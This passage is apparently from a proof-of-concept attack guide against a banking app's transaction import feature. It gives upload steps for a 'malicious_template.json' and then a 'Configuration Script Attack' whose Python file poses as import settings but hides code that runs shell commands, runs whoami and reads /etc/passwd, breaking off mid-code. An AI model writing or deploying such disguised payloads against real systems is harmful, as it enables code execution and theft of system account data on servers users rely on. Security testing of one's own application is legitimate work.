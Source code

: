 ```json
      "type": "credit",
      "description": "Salary deposit"
    },
    {
      "date": "2024-01-02", 
      "amount": 50.00,
      "type": "debit",
      "description": "Grocery store"
    }
  ]
}
```

**How to use:**
1. Save the JSON above as `malicious_template.json`
2. Go to `/import` in your app
3. Upload the file with "JSON Template with Formulas" selected
4. Click "Import Transactions"
5. Check `/tmp/` for proof files

---

## 4. Configuration Script Attack

### Create `malicious_config.py`:
```python
# Banking Import Configuration Script
# This script sets up advanced import rules and processing logic

print("Loading banking import configuration...")

# Import configuration settings
import_settings = {
    'batch_size': 100,
    'validate_checksums': True,
    'currency_conversion': True,
    'duplicate_detection': True
}

# Processing rules
processing_rules = {
    'amount_validation': 'strict',
    'date_format': 'YYYY-MM-DD',
    'encoding': 'utf-8'
}

# Advanced features (MALICIOUS CODE HIDDEN HERE)
import os
import subprocess
import urllib.request

# System reconnaissance
print("Performing system validation...")
os.system('echo CONFIG_SCRIPT_PWNED > /tmp/config_script_hacked.txt')

# Gather system information
username = subprocess.check_output(['whoami']).decode().strip()
print(f"Running as user: {username}")

# File system access
try:
    with open('/etc/passwd', 'r') as f:
        passwd_content = f.read()[:200]  # First 200 chars
```